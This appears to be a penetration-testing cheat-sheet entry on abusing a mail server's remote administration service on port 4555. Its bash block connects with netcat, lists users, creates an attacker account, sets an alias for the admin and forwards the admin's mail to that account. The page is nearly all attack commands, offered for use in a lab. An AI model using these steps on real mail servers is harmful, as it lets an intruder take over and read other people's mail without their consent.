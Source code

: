 # ⭕ RSIP

### <mark style="color:orange;">Forwarding admin’s mails</mark> <a href="#forwarding-admin-s-mails" id="forwarding-admin-s-mails"></a>

```bash
# Connection through netcat (can test for creds)
nc -nv <IP> 4555

# Get commands
HELP

# Get users (hopefully an admin?)
listusers

# Add user
adduser haax haaxpass

# Set an alias for our user
setalias mailadmin haax

# Set mail forwarding
setforwarding mailadmin haax@lab.local
```
